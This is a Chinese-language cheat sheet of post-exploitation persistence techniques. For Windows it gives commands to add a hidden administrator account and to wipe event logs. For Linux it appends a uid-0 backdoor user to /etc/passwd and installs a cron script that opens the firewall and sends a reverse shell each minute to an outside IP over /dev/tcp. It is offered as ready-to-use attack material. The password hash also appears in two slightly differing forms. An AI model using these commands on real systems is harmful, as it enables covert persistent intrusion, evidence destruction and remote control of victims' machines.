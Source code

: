 
### web
#### 后门

鸽

---

### win
#### 后门

```bash
net user PHPNET$ 1234abcd~ /add # 添加用户
# Windows 的帐号名称后带着"$"符号时,不会在 net user 命令中显示出帐号信息
net localgroup administrators PHPNET$ /add # 将用户添加到管理组
net user PHPNET$ /del # 删除用户

query user # 查看会话

logoff ID号 # 踢掉
```

#### 痕迹清理

**删除日志文件**
```bash
net stop eventlog   # 停止服务
del c:\Windows\System32\Winevt\Logs\* /Q
```

### linux
#### 后门

**添加root权限后门用户**

我们的目标就是在这个文件中追加一条，一个带有密文且id为0的账号。

密码加密使用下面的命令`perl -e 'print crypt("password", "AA"). "\n"'`

所以我们最终想要在passwd文件中的条目是这个样子的`backdoor:AA6tQYSfGxd/A/A:0:0:me:/root:/bin/bash`

执行写入`echo "backdoor:AA6tQYSfGxd/A:0:0:me:/root:/bin/bash">>/etc/passwd`

**Crond开机自启后门**

先创建 /etc/xxxx 脚本文件(名字自己改)，利用该脚本进行反弹。以下脚本代表全自动反弹到 8.8.8.8 的 53 端口。
```vim
vim /etc/xxxx
    #!/bin/bash
    if netstat -ano|grep -v grep | grep "8.8.8.8">/dev/null
    then
    echo "OK">/dev/null
    else
    /sbin/iptables --policy INPUT ACCEPT
    /sbin/iptables --policy OUTPUT ACCEPT
    bash -i >& /dev/tcp/8.8.8.8/53 0>&1
    fi

chmod +sx /etc/xxxx
```
```vim
vim /etc/crontab
    */1 * * * * root /etc/xxxx

service cron reload #不同发行版重启方式不一样
service cron start
```
